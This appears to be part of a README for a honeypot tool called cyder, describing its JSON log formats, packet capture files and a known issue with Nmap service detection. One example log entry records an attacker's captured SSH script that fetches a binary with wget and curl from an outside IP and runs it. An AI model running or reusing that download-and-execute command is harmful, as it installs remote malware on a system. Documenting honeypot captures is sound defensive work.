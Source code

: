 

## Logging

Logs are stored in `/var/log/cyder` by default, unless changed. All logs are in `json` format.

**cyder.json**

- Contains credentials and commands that are attempted through SSH/Telnet/HTTP
- Example of Logs:
    - `{"timestamp": 1577716279.8859844, "protocol": "SSH", "username": "root", "password": "admin", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 52772}`
    
    - `{"timestamp": 1577682398.527439, "protocol": "SSH", "command": "#!/bin/sh\nPATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nwget http://23.228.113.117/21\ncurl -O http://x.x.x.x/21\nchmod +x 21\n./21\n", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 50433}`
    
    - `{"timestamp": 1577682701.8840919, "protocol": "Telnet", "username": "admin", "password": "", "src_ip": "x.x.x.x", "dst_ip": "x.x.x.x", "src_port": 56380}`
    
    - Timestamp is in epoch time format.

**packet.json**

- Contains the packet bytes the host received. **NOTE:** it does not contain packets that are sent out.
- Example of Packet Log:
    - `{"timestamp": 1577678695.520519, "dst_ip": "x.x.x.x", "host_os": "HOST", "src_ip": "x.x.x.x", "services": 22, "packet": "d2h5IGRpZCB5b3UgZXZlbiB0cnkgdG8gZGVjb2RlIHRoaXM/IEkgd291bGRuJ3QgcHV0IGEgcmVhbCBwYWNrZXQgaGVyZQ==\n"}`
    
    - The packet is base64 encoded. To decode it, use:
    
        - `base64.decodebytes(packet.encode('ascii'))`
        - This will return you the actual bytes.
        
    - `services` is the port number.

**cyder.pcap**

- The pcap file that was obtained through tcpdump. This pcap contains incoming and outgoing packets.

**debug.json**

- Self-explanatory 

## Known Issues, Limitations and Fixes

1. Issue:

    - Nmap result is inaccurate for services and/or operating system

    Fix:

    - For services, if emulated SSH is set to true in the `host_config.ini`, the text `SSH-2.0` will be automatically appended. (Do manually remove it from 22=`SSH-2.0-` in the configuration file)
    - Services have to be in regex format.
